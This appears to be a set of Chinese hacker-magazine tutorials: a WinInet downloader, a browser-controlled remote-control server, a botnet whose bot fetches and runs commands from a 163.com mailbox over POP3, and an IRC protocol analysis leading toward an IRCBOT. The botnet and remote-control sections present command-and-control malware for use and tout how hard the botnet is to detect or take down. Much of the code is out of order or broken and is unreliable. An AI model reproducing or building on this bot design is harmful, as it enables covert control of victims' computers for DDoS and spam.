if (!(dwFlags & INTERNET_CONNECTION_PROXY))
    hOpen = InternetOpenA(strAgent, INTERNET_OPEN_TYPE_PRECONFIG_WITH_NO_AUTOPROXY, NULL, NULL, 0);
else
    hOpen = InternetOpenA(strAgent, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
if (!hOpen)
{
    AfxMessageBox("Internet连接错误!");
    return -1;
}
...
if (!(hConnect = InternetOpenUrlA(hOpen, szUrl, szHead,
    lstrlenA(szHead), INTERNET_FLAG_DONT_CACHE |
    INTERNET_FLAG_PRAGMA_NOCACHE |
    INTERNET_FLAG_RELOAD, 0)))
{
    AfxMessageBox("不能打开该URL!");
    return -1;
}
if (file.Open(szFileName, CFile::modeWrite | CFile::modeCreate) == FALSE)
{
    AfxMessageBox("不能打开本地的文件!");
    return -1;
}
```


图1

本例程用到4个WinInet接口函数，分别是InternetGetConnectedState、InternetOpen、InternetOpenUrl和HttpQueryInfo，分别用以获取当前网络连接信息、打开网络连接、打开具体URL和查看连接信息。在工程中，我们写一个函数InternetGetFile对下载细节进行封装，代码如下。

```cpp
int CDownloadProgressDlg::InternetGetFile(HWND hWnd, CString szUrl, CString szFileName)
{
    DWORD dwFlags;
    InternetGetConnectedState(&dwFlags, 0);
    // 获取当前网络连接信息
    CHAR strAgent[64];
    ...
}
```

```cpp
DWORD dwBytes = 0;
if (!HttpQueryInfo(hConnect,
    HTTP_QUERY_CONTENT_LENGTH,
    HTTP_QUERY_FLAG_NUMBER, (LPVOID)&dwByteToRead,
    &dwSizeOfRq, NULL))
{
    dwByteToRead = 0;
}
DWORD start;   // 记录时间
DWORD end;
DWORD time;
int nPos;
CString tempstring;
time = 10;
start = timeGetTime();
do
{
    if (!InternetReadFile(hConnect, szTemp, 16384,
        &dwSize))
    {
        AfxMessageBox("读文件出错!");
        file.Close();
        return -1;
    }
    if (dwSize == 0)
        break;
    else
        file.Write(szTemp, dwSize);
    dwBytes += dwSize;
    if (dwByteToRead)
    {
        tempstring.Format("%d%%", (dwBytes * 100) / dwByteToRead);
        nPos = (dwBytes * 100) / dwByteToRead;
    }

    float fSpeed = 0;   // 计算速度
    fSpeed = (float)dwBytes;
    fSpeed /= (float)((float)time / (float)1000);
    fSpeed /= (float)1024;

    SHOWINFO* pShowInfo = new SHOWINFO;
    pShowInfo->strSpeed.Format("%4.1f KB/秒", fSpeed);
    pShowInfo->nPos = nPos;
    ::PostMessage(hWnd, MSG_PROGRESS, 0, (LPARAM)pShowInfo);

    end = timeGetTime();
    time = end - start;
    if (time == 0)
        time = 10;
}
while (TRUE);
file.Close();
InternetCloseHandle(hOpen);   // 关闭句柄
return 0;
```

这个函数的后半段代码我解释一下。SHOWINFO是一个自定义的结构体，用其把当前速度和进度传递给界面进度条，定义如下。

```cpp
struct SHOWINFO
{
    CString strSpeed;
    int nPos;
};
```

传递信息给界面的方式是用PostMessage。在这里，它的第二个参数就是SHOWINFO的对象了，注意使用时要强制转化为LPARAM。MSG_PROGRESS是个自定义消息，它的响应函数为OnStep，在其中处理进度条的显示。实现代码如下。

```cpp
LRESULT CDownloadProgressDlg::OnStep(WPARAM wParam, LPARAM lParam)
{
    CString strSpeed = ((SHOWINFO*)lParam)->strSpeed;
    int nPos = ((SHOWINFO*)lParam)->nPos;
    delete (SHOWINFO*)lParam;
    CString strPercent;
    strPercent.Format("%d%%", nPos);
    SetDlgItemText(IDC_SPEED_TEXT, strSpeed);
    SetDlgItemText(IDC_PERCENT_TEXT, strPercent);
    m_progress.SetPos(nPos);
    if (nPos == 100)
    {
        GetDlgItem(IDC_DOWNLOAD)->EnableWindow(TRUE);
        GetDlgItem(IDOK)->EnableWindow(TRUE);
        MessageBox("文件下载完成！", "OK", MB_ICONINFORMATION);
    }
    return TRUE;
}
```

函数InternetGetFile在单独的线程中调用，其新线程的动作在“下载”按钮点击事件中进行，代码如下。

```cpp
void CDownloadProgressDlg::OnDownload()
{
    // TODO: Add your control notification handler code here
    CString url, filename;
    GetDlgItemText(IDC_FILE_URL, url);
    GetDlgItemText(IDC_LOCAL_DIRECTORY, filename);
    if (url.IsEmpty())
    {
        AfxMessageBox("请输入Internet文件的URL!");
        return;
    }
    if (filename.IsEmpty())
    {
        AfxMessageBox("请输入需要保存的文件路径!");
        return;
    }
}
```

```cpp
// 下面代码我来解释一下，见下文
DOWNINFO* pDownInfo = new DOWNINFO;
pDownInfo->hWnd = m_hWnd;
pDownInfo->url = url;
pDownInfo->filename = filename;
//GetDlgItem(IDC_DOWNLOAD)->EnableWindow(FALSE);
//GetDlgItem(IDOK)->EnableWindow(FALSE);
AfxBeginThread(DownProc, (LPVOID)pDownInfo);
}
```

```cpp
{
    HWND hWnd = ((DOWNINFO*)pDownInfo)->hWnd;
    CString url, filename;
    url = ((DOWNINFO*)pDownInfo)->url;
    filename = ((DOWNINFO*)pDownInfo)->filename;
    if (InternetGetFile(hWnd, url, filename) == 0)
    {
        //AfxMessageBox("下载成功!");
        //g_nAbort=TRUE;
        return 1;
    }
    else
    {
        AfxMessageBox("下载失败!");
        return 0;
    }
}
```

上面函数中的DOWNINFO也是一个自定义结构体，用以向新线程传递句柄、URL和文件名，定义如下。

```cpp
struct DOWNINFO
{
    HWND hWnd;
    CString url;
    CString filename;
};
```

DownProc是个回调函数，它的函数结构和参数表系统已经为我们定义好。函数内容如下。

```cpp
UINT CDownloadProgressDlg::DownProc(LPVOID pDownInfo)
```

回顾本例程，我们的代码并没有用到计时器去显示进度，而是每下载一定字节数就向窗口发送自定义消息来让进度条显示进度，所以做到了实时性和准确性。文中代码在VC6.0+Windows XP中调试通过，如有不妥之处，欢迎大家批评指正。

适合读者：编程爱好者  
前置知识：C

## B/S模式远程控制简单实现


文／图 天涯浪人

说道B/S模式，不能不先说下C/S，C/S和B/S是当今世界开发模式技术架构的两大主流技术。C/S结构，即客户机和服务器结构。目前大多数应用软件系统都是Client/Server形式的两层结构，它是软件系统体系结构，通过它可以充分利用两端硬件环境的优势，将任务合理分配到Client端和Server端来实现，降低了系统的通讯开销。B/S结构即浏览器和服务器结构。它是随着Internet技术的兴起，对C/S结构的一种变化或者改进的结构。在这种结构下，用户工作界面是通过浏览器来实现的，极少部分事务逻辑在前端(Browser)实现，但是主要事务逻辑在服务器端(Server)实现，形成所谓三层3-tier结构，大大简化了客户端电脑载荷，减轻了系统维护与升级的成本和工作量，这种模式就是B/S模式。

C/S结构的远程控制网上到处都是，像大名鼎鼎的冰河，以及网络神偷、PCSHARE、黑洞，到现在遍地开花的灰鸽子，都是国人C/S模式下开发的优秀远程控制软件。B/S的远程控制网上也有，国外的像RemotelyAnywhere、VNC也支持用浏览器进行控制，国内的像yyc开发的rmtsvc2.5.x，也是这方面成功的范例。当然，B/S更多是用在嵌入式里的，这方面我了解不多。不多说了，下面我们就来一步步实现B/S模式下的远程控制。

首先说说程序开发思路。服务端（Server）运行后监听80端口，并启动程序内模拟的Web服务，等待接收客户端请求；采用IE（浏览器）作为客户端，通信以TCP/IP协议为基础，Server端与IE的通信以HTTP协议进行，由浏览器向Server发出请求，Server处理请求，并把结果按HTTP协议发送给浏览器，浏览器收到处理结果数据后以网页形式显示给用户。在正式开始编写程序之前，我们先看下面的两个函数。

```c
// 数据HTTP打包的函数，把发送的数据按HTTP协议格式打包传递
BOOL SendToIE(SOCKET s, char *data)
{
    char buffer[BUFFER_SIZE + 200];
    DWORD bufferLen;

    sprintf(buffer,
        "HTTP/1.1 200 OK\r\n"
        "Server: Microsoft-IIS/5.0\r\n"
        "Date: Sun, 23 Oct 2005 06:06:46 GMT\r\n"
        "Content-Length: %d\r\n"
        "Content-Type: text/html\r\n"
        "Set-Cookie: ASPSESSIONID...=TESTHTTPWEBMANAGE; path=/\r\n"
        "Cache-control: private\r\n\r\n"
        "%s\r\n", strlen(data), data);

    bufferLen = (DWORD)strlen(buffer);
    send(s, buffer, (DWORD)strlen(buffer), 0);
    return true;
}
```

由于IE只接收HTTP协议的数据，为了程序处理的结果能正常在IE中显示出来，我们用上面的函数把要发给IE的数据以HTTP协议的形式打包发送。程序接收IE请求的时候，收到的数据包也是HTTP响应的形式，我们也要对收到的数据先处理一下。由于这个程序里多数都是Get请求，我就直接分析主要部分吧，直接获取Get的内容。先看下一个Get请求的例子，下面是一个IE请求登录验证页面时的数据包。

```http
GET /login.htm HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash
...
```

```http
... wave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: aspsessionid...=TESTHTTPWEBMANAGE
```

这里只要知道是IE在请求login.htm这个页面就好了，别的我们暂且不去理会。再看下面的代码。

```c
char *gethead(char *buf)
{
    char temp[MAXDATASIZE] = {0};
    char get[] = "/";
    char htm[] = "HTTP";
    char *F = NULL;
    char *L = NULL;
    char *te = NULL;

    F = strstr(buf, get) + strlen(get);     // 得到 / 的位置
    L = strstr(buf, htm) + strlen(htm) - 5; // 得到 .htm 后空格的位置

    memset(temp, 0, MAXDATASIZE);
    memcpy(temp, F, L - F);
    return te = temp;
}
```

有了上面的两个函数，很多问题就好办了，发送HTTP响应数据和处理接收的IE请求都搞定了。下面开始B/S远程控制的实现了，还是和C/S模式一样，程序先建立Socket并监听本机80端口，代码如下。

```c
WSADATA ws;
SOCKET listenFD;
int ret;

// 初始化WSA
WSAStartup(MAKEWORD(2,2), &ws);

// 建立Socket
listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

// 绑定本机端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(80);
server.sin_addr.s_addr = INADDR_ANY;
ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
ret = listen(listenFD, 10);

// 如果客户端请求80端口，接受连接
int iAddrSize = sizeof(server);
SOCKET s = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```

当有IE连接的时候，就接受它，代码如下。

##### 登录验证过程

```c
int iAddrSize = sizeof(server);
SOCKET s = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```

接受连接后向 IE 发送登录验证页面，要求输入密码。这里我只是简单地要求输入一个密码的网页来验证，也可以像 rmtsvc 那样要求输入账号和密码。当然，为了防止暴力破解，还可以产生一个随机数来做验证码，这里就留给大家来完成了。登录页面如图1所示。

```c
"<body>\r\n"
"<form action=/cgi-bin/login.htm method=post>\r\n"
"<div align=center><center><p> </p>\r\n"
"<font color=#0000FF>请输入管理员密码:</font><br>\r\n"
"<input type=password name=pass size=20><br>\r\n"
"<input type=submit value=Login></p>\r\n"
"</form>\r\n"
"</body>\r\n"
"</html>\r\n";
```


图1 登录页面

之后开始登录验证过程，实现代码如下。

```c
if (i > 0) {
    recv(s, rev, MAXDATASIZE, 0);
    printf("%s\r\n", rev);
    char *p = strstr(rev, "pass=");
    if (*(p + strlen("pass=")) != 0)
        strcpy(pass, p + strlen("pass="));
    printf("pass:%s\r\n", pass);
    if (strcmp(pass, g_password) != 0) {
        memset(pass, 0, sizeof(char) * MAXDATASIZE);
        memset(rev, 0, sizeof(char) * MAXDATASIZE);
        goto login;
    } else {
        send(s, "HTTP/1.1 302 Object Moved\r\nContent-Length:0\r\nLocation:/index.htm\r\n\r\n", ...);
    }
}
```

继续看如下的代码。

```c
char rev[MAXDATASIZE] = {0};
char pass[BUFFER_SIZE] = {0};
recv(s, rev, MAXDATASIZE, 0);
printf("%s\r\n", rev);
send(s, to_index, (DWORD)strlen(to_index), 0);
```

其中参数 `to_index` 的内容如下。

```c
char to_index[MAXDATASIZE] = "HTTP/1.1 302 Object Moved\r\n"
"Content-Length: 0\r\n"
"Location: /login.htm\r\n"
"Set-Cookie: aspsessionid...; path=/\r\n\r\n";
```

其中的状态码 302 就是重定向，定向到 `/login.htm`。下面再接收 IE 的请求，方法为“GET /login.htm HTTP/1.1”。

```c
recv(s, rev, MAXDATASIZE, 0);
login:
int i = SendToIE(s, login);
```

这里才是发送真正的登录页面 `/login.htm`，代码如下。

```c
char login[MAXDATASIZE] = "<html>\r\n"
"<head>\r\n"
"<title>管理员登录</title>\r\n"
"</head>\r\n";
```

这样就完成了整个的登录验证过程了。这里的 `index.htm` 就是程序的主界面了。为了广大和我一样的菜鸟朋友在继续开发的时候能轻松点，我花了点时间把界面做了下，如图2所示，呵呵，不是很难看吧？

到这里，程序的主要部分才真正地开始了。大家不要泄气，编程就是要有耐心啊。其实大家把上面的过程都弄清楚了，接下来的也就好办了。也就是程序循环接收 IE 请求，对每个请求做分析，请求什么我们就做相应的处理，发送响应及处理后的数据给 IE，也就是程序的功能部分了。继续上面的过程，先看看循环接收 IE 请求的代码。


图2 主界面

```c
{
    sysinfo(s);   // 查看系统信息
}
if (strcmp(re, "exit.htm") == 0)
{
    SendToIE(s, "<center>天涯浪人测试<br>exit.htm</center>");
}
return 0;
}
```

由于篇幅的关系，我不可能在这里把整个程序都写完，只写了两个简单实用的功能——列举系统主机的进程和查看主机的系统信息，详细代码工程文件里都有，就不贴出来了，其界面如图3和图4所示。

```c
// 循环接收IE请求，发送响应及处理后的数据
while (1)
{
    ZeroMemory(rev, MAXDATASIZE);
    i = recv(s, rev, MAXDATASIZE, 0);
    printf("%s\n", rev);
    if (i == SOCKET_ERROR)
    {
        closesocket(s);
        break;
    }
    else
    {
        char *re = NULL;
        re = judgehead(rev);
        printf("re:%s\n", re);
        if (strcmp(re, "index.htm") == 0)
        {
            SendToIE(s, index_htm);
        }
        if (strcmp(re, "control.htm") == 0)
        {
            SendToIE(s, control_htm); // 发送左边控制页面
        }
        if (strcmp(re, "viewdir.htm") == 0)
        {
            SendToIE(s, "<center>天涯浪人测试</center>");
        }
        if (strcmp(re, "main.htm") == 0)
        {
            SendToIE(s, "<center>天涯浪人测试<br>main.htm</center>");
        }
        if (strcmp(re, "pslist.htm") == 0)
        {
            pslist((void *)s); // 列举系统进程
        }
        if (strcmp(re, "sysinfo.htm") == 0)
        {
            sysinfo(s);
        }
    }
}
```


图3 列举系统进程


图4 查看系统信息

程序到这里当然还存在很多问题，像数据的处理，需要结合浏览器的多种 Script 语言（VBScript、JavaScript、Ajax、XML）和 ActiveX 技术等等，后面的工作就留给大家了，完整的工程文件已随文章提供。

适合读者：编程爱好者

前置知识：VC

## 基于SMTP/POP3协议的新型僵尸网络实现


文／图  天游浪人

随着网络的普及，互联网上的各种攻击方法层出不穷，像 DDoS 攻击、传播垃圾邮件等，这些攻击虽然方法不同，但都有一个共同的地方，就是这样的攻击的平台基本上是一样的——僵尸网络。它是攻击者手中的一个攻击平台，通过僵尸网络实施这些攻击行为，简化了攻击步骤，提高了攻击效率，而且更易于隐藏身份。僵尸网络的控制者可以从攻击中获得经济利益，这是僵尸网络日益发展的重要原动力。

### IRC僵尸网络原理

僵尸网络是指采用一种或多种传播手段，将大量主机感染 bot 程序（僵尸程序），从而在控制端和被感染主机之间形成的一个可一对多控制的网络。网络上现在常见的网络僵尸程序大多数是基于 IRC 聊天协议的 IRCBOT，基于 IRC 的僵尸网络原理如图1所示。


攻击者在公共或者秘密设置的 IRC 聊天服务器中开辟私有聊天频道作为控制频道，僵尸程序中预先包含了这些频道信息，当僵尸计算机运行时，僵尸程序会自动寻找和连接这些控制频道，收取频道中的消息。攻击者则通过控制频道向所有连线的僵尸程序发送指令。

### SMTP/POP3协议分析以及利用

接下来我们再来看一下邮件收发的原理，如图2所示。个人用户在编辑完邮件内容后，连接 SMTP 服务器 25 端口，向服务器发送编辑好的数据内容，服务器会自动把信件投送到用户指定的邮箱地址。在要接收邮件时，连接到 POP3 服务器 110 端口，输入账号密码登录邮箱后，接收邮件内容。当然，上述过程在登录网站收发信件时是看不到的。信息的接收和发送在一般看来是不同步的，因为大多数人都使用 IE 或者别的邮件收发工具，即使自己给自己发一封邮件，也不会马上显示出收到新的邮件。


由于整个邮件系统给了使用者一个完整的信息发送和接收过程，所以利用这个过程就可以进行我们自己的数据传输。这个过程要经过服务器的中转，而且连接中都有一个登录过程，给人的感觉是数据传输中的延时非常大，但在实际测试时（测试时使用的是 163 的免费邮箱，发信收信都在同一个邮箱），分别编写两个程序，一个先登录到 POP3 服务器查看有没有新的邮件，若没有则不停地登录并查看；另一个登录到 SMTP 服务器发信。在这个过程中，除了登录服务器所消耗的时间外，邮件的发送和接收几乎和一般的 Socket 连接传送数据是一样的，这就为我们打造僵尸网络提供了可能。

下面看一下我们要打造的僵尸网络的原理，如图3所示。整个网络构成原理很简单，主要的部分是 Server 端，也就是要植入电脑的 BOT 程序。BOT 程序运行后，连接到程序内置的 POP3 服务器地址，查看是否有带有特定标记的邮件，若没有，则过一段时间后，BOT 程序再次登录查看；若收到带有特定标识的邮件（此时攻击者发出了带有攻击命令的邮件），则分析出里面的命令并执行。对于僵尸网络的控制者，当要进行攻击活动时，只需要登录某个 SMTP 服务器，向指定的邮箱里发送一封带有命令的邮件就可以了，所有对 BOT 电脑的控制，都是通过发送邮件来完成的。


图3

当然，上面提到地址可以内置多个，像有的 IRCBOT 一样，防止一个地址被封，还可以连接别的，增加了僵尸网络的健壮性；提高了 BOT 们的寿命，而且还可以让 BOT 电脑以发送邮件的形式再返回命令执行的结果。

利用邮件系统构造的僵尸网络的优点有三：

- 一是隐蔽性，因为没有使用传统的 IRC 协议，现在通用的用于检测 IRCBOT 僵尸网络行为特征的方法几乎不可能查出僵尸电脑的存在；
- 二是稳定性，由于邮件系统的重要性，所以不能使用关闭僵尸网络的控制服务器或是将其使用的域名取消的方法来解散僵尸网络；
- 三是安全性，由于邮件的发送和接收并不一定要在同一邮件服务器上进行，这样携带控制命令的邮件可以从其它的服务器上发送，控制者不必直接连接到控制命令服务器上发送命令邮件，这样，其它的 SMTP 服务器也在无形之中充当了跳板。

##### 邮件网络僵尸的实现过程

上面只是简单地介绍了一下僵尸网络的工作原理，实际编程并不难。首先在这里简要介绍一下 POP3 以及 SMTP 的协议原始命令码。

SMTP 命令码：

- HELO：向服务器标识用户身份；
- MAIL：初始化邮件传输（mail from）；
- RCPT：标识单个的邮件接收人，在 MAIL 命令后面可有多个 RCPT TO；
- DATA：在单个或多个 RCPT 命令后，表示所有的邮件接收人已标识，并初始化数据传输，以“.”结束；
- VRFY：用于验证指定的用户/邮箱是否存在；
- EXPN：验证给定的邮箱列表是否存在；
- HELP：查询服务器支持什么命令；
- NOOP：无操作，服务器应响应 OK；
- QUIT：结束会话；
- RSET：重置会话，当前传输被取消。

POP3 命令码：

- USER：参数为 username；
- PASS：参数为 password；
- APOP：参数为 Name 和 Digest；
- STAT：请求服务器发回关于邮箱的统计资料；
- UIDL：参数为 [Msg#]，返回邮件唯一标识；
- LIST：参数为 [Msg#]，返回邮件数量和大小；
- RETR：参数为 [Msg#]，返回由参数标识邮件的全部文本；
- DELE：参数为 [Msg#]，将邮件标记为删除；
- RSET：服务器将重置所有标记为删除的邮件；
- TOP：参数为 [Msg#]，返回邮件前 n 行内容；
- NOOP：服务器返回一个肯定的响应。

下面是用 NC 连接到 POP3.163.com 的过程截图，如图4所示。现在各大免费/收费邮箱提供商，为了限制非本系统的正式用户利用邮件服务器散发垃圾邮件，开发了安全认证服务……


图4

是 ESMTP 方式。在 ESMTP 服务器上，发送邮件需要对用户的身份进行验证。与传统的 SMTP 方式相比，在初始化邮件传输 MAIL 命令之前，多了一道用户身份的验证手续，增加了一条 AUTH LOGIN 命令，提示服务器要进行验证了，需要用户输入 Base64 编码的用户名和密码，验证之后的邮件发送过程与传统的 SMTP 方式一致。

有了上面的分析过程，再加上邮件发送和接收的命令码也知道，我们只要一步一步地按照协议的过程和格式来发送网络数据就可以了。有过网络编程经验的应该都能容易地实现，下面我们就来编程实现它。本文使用 163 的免费邮箱进行测试。

```c
int main(int argc, char *argv[])
{
    WSADATA wsa;
    WSAStartup(MAKEWORD(2, 2), &wsa);
    struct hostent *pHostent = NULL;
    SOCKET s = INVALID_SOCKET;
    int ret = 0;
    char temp[1024] = {0};
    char Buffer[TEMPSIZE] = {0};
    char EmailData[TEMPSIZE * 10] = {0};
    char From[TEMPSIZE] = {0};
    char Data[TEMPSIZE] = {0};
    // 定义缓冲区
    char user[20] = "USERNAME";
    // 邮箱用户名
    char pass[16] = "PASSWORD";
    // 邮箱登录密码
    char *Pop3Host = "pop3.163.com";

    while (1)
    {
        Sleep(90000);
        s = socket(AF_INET, SOCK_STREAM, 0);
        struct sockaddr_in ServerAddr;
        pHostent = gethostbyname(Pop3Host);
        ServerAddr.sin_family = AF_INET;
        memcpy(&ServerAddr.sin_addr.S_un.S_addr,
               pHostent->h_addr_list[0], pHostent->h_length);
        ServerAddr.sin_port = htons(110);
        ZeroMemory(Buffer, sizeof(Buffer));
        ret = connect(s, (struct sockaddr *)&ServerAddr, sizeof(ServerAddr));
    }
}
```

```c
if (ret == SOCKET_ERROR)
{
    printf("Connect Mail Server Failed...\n");
    goto end;
}
printf("Connect to %s...\n", inet_ntoa(ServerAddr.sin_addr));

ret = recv(s, Buffer, sizeof(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Receive Data From Mail Server Failure...\n");
    goto end;
}
else
{
    Buffer[ret] = '\0';
    printf("%s\n", Buffer);
}

ZeroMemory(Buffer, sizeof(Buffer));
sprintf(Buffer, "USER %s\r\n", user);
ret = send(s, Buffer, strlen(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Send USER to Mail Failure...\n");
    goto end;
}

ret = recv(s, Buffer, sizeof(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Receive Data From Mail Server Failure...\n");
    goto end;
}
printf("%s\r\n", Buffer);

ZeroMemory(Buffer, sizeof(Buffer));
sprintf(Buffer, "PASS %s\r\n", pass);
ret = send(s, Buffer, strlen(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Send PASS to Mail Failure...\n");
    goto end;
}
```

```c
printf("Receive Data From Mail Server Failure...\n");
}
else
{
    // 下面判断有没有收到邮件，这里用了偷懒的方法，邮箱为空时返回字符串长度是一定的
    printf("0:%s\r\n", Buffer);
    printf("1:%d\r\n", strlen(Buffer));
    memcpy(temp,
        strstr(Buffer, "i") + strlen("i"),
        (strstr(Buffer, "(S)") - (strstr(Buffer, "i") + strlen("i")))
    );

    if (strlen(Buffer) == 30)
    {
        printf("2:%s\r\n", temp);
        printf("No Email!\r\n");
        // 邮箱为空
        Sleep(100);
        ret = send(s, "QUIT\r\n", strlen("QUIT\r\n"), 0);
        if (ret == SOCKET_ERROR)
        {
            printf("Send Quit to Mail Failure...\n");
            goto End;
        }
        else
        {
            printf("Quit\n");
        }
        closesocket(s);
        WSACleanup();
    }
    else
    {
        // 到这里就表示收到邮件了，先用 TOP 看看邮件头
        ZeroMemory(Buffer, sizeof(Buffer));
        send(s, "TOP 1 3\r\n", strlen("TOP 1 3\r\n"), 0);
        Sleep(100);
        recv(s, EmailData, sizeof(EmailData), 0);
        printf("%s\r\n", EmailData);

        memcpy(From,
            strstr(EmailData, "From:") + strlen("From:"),
            (strstr(EmailData, "To:") - (strstr(EmailData, "From:") + strlen("From:")))
        );

        if (strcmp(From, "client\r\n") == 0)
        {
            Sleep(1000);
        }
    }
}
```

```c
// 收到的不是 BOT 主人发的信，就删除掉，以免发送的命令邮件 BOT 没机会看到
ZeroMemory(Buffer, sizeof(Buffer));
send(s, "DELE 1\r\n", strlen("DELE 1\r\n"), 0);
recv(s, Buffer, sizeof(Buffer), 0);
send(s, "QUIT\r\n", strlen("QUIT\r\n"), 0);
// 删除后就退出
}
else
{
    // 这里为了获取邮件内容，简单加了一个标签
    memcpy(Data,
        strstr(EmailData, "SET:\r\n") + strlen("SET:\r\n"),
        (strstr(EmailData, "\r\n\r\n") - (strstr(EmailData, "SET:\r\n") + strlen("SET:\r\n")))
    );
    printf("get Email from client\r\n");
    printf("\r\n==Data=\r\n%s\r\n", Data);
    char *cmd = NULL;
    cmd = GetCommend(Data);
    printf("cmd:%s\r\n", cmd);
    if (strcmp(cmd, "pslist") == 0)
    {
        // 这里判断是什么命令
        pslist();
        send(s, "QUIT\r\n", strlen("QUIT\r\n"), 0);
    }
}
end:
closesocket(s);
WSACleanup();
return 0;
```

上面用于得到命令的函数实现如下。

```c
char *GetCommend(char *Buffer)
{
    char Cmd[TEMPSIZE] = {0};
    memcpy(Cmd,
        strstr(Buffer, "@") + strlen("@"),
        (strstr(Buffer, "\r\n") - (strstr(Buffer, "@") + strlen("@")))
    );
    return &Cmd[0];
}
```

到这里，一个 BOT 就打造出来了。是不是很简单呢？上面有关控制端如何发信的我没有写出来，其实看了上面的代码执行过程，那个命令邮件的格式自己也就知道了。SMTP 命令码上面也提供了，和 POP3 收信一样，发信也是一步一步地按协议的过程来写就行了，大家自己可以试试，以后有机会我再给大家介绍。

#### IRCBOT：由协议分析到编程实现

适合读者：编程爱好者

前置知识：VC

文/图 天涯浪人

相信大家经常听说哪台主机被 DDOS 了，某个网站受到了攻击了，这些大规模的攻击多半是由 IRCBOT 僵尸网络发动的。什么是 IRC？IRC 是英文 Internet Relay Chat 的缩写，是一种以前在世界上，尤其是在国外非常流行的聊天方式之一，中文名称又叫做网络中继聊天。简单地说，就是使用特定的客户端软件连接到 IRC 服务器，然后以客户端→服务器→客户端的方式，使得用户能够交换信息。但对攻击而言，构建僵尸网络是种比较好的方式……

……控制者在房间里发送事先协定好的命令消息，IRCBOT 们收到命令消息后执行命令，发动攻击，如图 1 所示。通常由于受控制的 IRCBOT 数量非常多，常常数以万计，所以这种攻击危害非常大。同时僵尸网络的控制者是通过网络上公开的 IRC 服务器对 BOT 进行控制，并非直接控制，这样即使找到了正在攻击的 IRCBOT 主机，要查找出真正的发动攻击者也有一定的难度。

了解了 IRC 僵尸网络的原理，下面我们就编程实现一个简单的 IRCBOT。开始之前，我们先了解一下 IRC 协议。IRC 聊天是建立在 IRC 协议基础之上的，IRC 的协议命令非常之多，整个过程也很复杂，大家若是有兴趣，可以去 http://www.irchelp.org/irchelp/rfc/ 查看有关 IRC 命令的详细介绍。我们不是要编写一个功能完整的 IRC 客户端，所以也不需要知道太多的协议命令，只需要基本的登录过程和收发消息的协议命令就够了。

为了直观地了解整个通信过程，我们用协议分析工具来简单分析一下 IRC 登录以及消息的收发过程。由于现在网上的 IRC 服务器有太多广告消息，我们在本地搭建一个 IRC 服务器，方便看清楚通信过程的细节。我使用的是从网上下载的一个小型 IRC Server，程序运行后如图 2 所示。

协议分析使用的是 wkiller1.0.exe，一个常见的网络数据抓包工具，运行后在进程列表里选择 IRCSERVER.exe，点击 START 就开始抓取通信数据了。Client 程序使用的是 Dana，国外的一个小巧的 IRC 客户端……

客户端先点击“File->Properties”设置登录服务器为本地主机，连接端口为 6667（IRC 服务器默认端口）；点击确定后，再点击 File 选择 Connect，会提示输入一个昵称，输入后就可连接到 IRC 服务器了。但此时还没有进入任何聊天房间，在 Dana 最下面文本输入处输入“/JOIN #hacker.com.cn”，这样便进入了“#hacker.com.cn”这个聊天房间。第一个进入房间的人是房间的主人，对房间拥有管理权限，相当于 QQ 群的群主。我们看一下在这个过程中抓到的数据，因为 IRC 协议通信数据在网络上是明文传输的，无需解密或解码。由于 wkiller 显示的数据有点乱，下面是抓到后稍做修改的数据。

```text
// 和服务器进行交互
接收：
USER anonym localhost localhost :Anonym
// 第一次发送的是 USER 命令
NICK tmya
// 发送 NICK 命令，改变当前昵称

接收：
JOIN :#hacker.com.cn

发送：// 此时已经登录到 IRC 聊天服务器了，服务器会发给在线客户端提示消息
:tmya JOIN #hacker.com.cn
:irc.undefined.com 332 tmya #hacker.com.cn ...
:irc.undefined.com 353 tmya = #hacker.com.cn :@tmya
:irc.undefined.com 366 tmya #hacker.com.cn :End of /NAMES list

发送：// 服务器会定时发送 PING 检测连接状态
PING
...
接收：
MODE #hacker.com.cn ...
PONG
```

从上面的过程可以看出，登录到 IRC 服务器的过程很简单，只需几步就可以完成。

客户端连接到 IRC 服务器，发送 USER 命令，提示服务器端有客户端要登录了；客户端再发送 NICK 命令，发送登录昵称，再发送 JOIN 命令进入房间，这样就完成了一个基本的 IRC 登录过程。同时，服务器为了判断客户端是否活动，会在客户端没有动作时发送服务器端 PING 命令，客户端要尽快回应 PONG，告诉服务器连接正常，否则连接可能会被服务器断开。

接下来再看一下消息的收发过程。运行一个 Dana，会提示用户名正在使用，要求更换名称。随后输入一个 test，在 Dana 里输入一条消息“Hello www.hacker.com.cn”，回车后消息就向聊天室发送了，如图 3 所示。

再在 Dana 旁边的用户列表里双击用户名 test，打开一个私聊窗口，输入测试消息“hello hacker”，如图 4 所示。

这样，我们就成功地向聊天室发送了广播消息和私聊消息了。广播消息会经服务器向所有在线客户端发送，私聊消息只发送给指定的在线客户端。下面看一下此时抓到的数据。

```text
// 服务器端抓取到的数据
接收：
PRIVMSG #hacker.com.cn :Hello www.hacker.com.cn

发送：// 发送的私聊消息
:tmya PRIVMSG #hacker.com.cn :Hello www.hacker.com.cn
#hacker.com.cn :
:irc.undefined.com 353 test = #hacker.com.cn :@tmya test
:irc.undefined.com 366 test #hacker.com.cn :End of /NAMES list

接收：
PRIVMSG test :hello hacker

发送（发送的私聊消息）：
:tmya PRIVMSG test :hello hacker
...
:irc.undefined.com 353 test = #hacker.com.cn :@tmya test
:irc.undefined.com 366 test #hacker.com.cn :End of /NAMES list
```

分析上面的数据，客户端发送消息的过程是先向服务器端发送消息，服务器按所发的是广播消息还是私聊消息，处理后再发送给用户。由此，我们可以得到 IRC 聊天消息发送和接收的命令和格式。

- 客户端向服务器发送广播消息：`PRIVMSG 聊天房间(一般以#开头):消息内容`
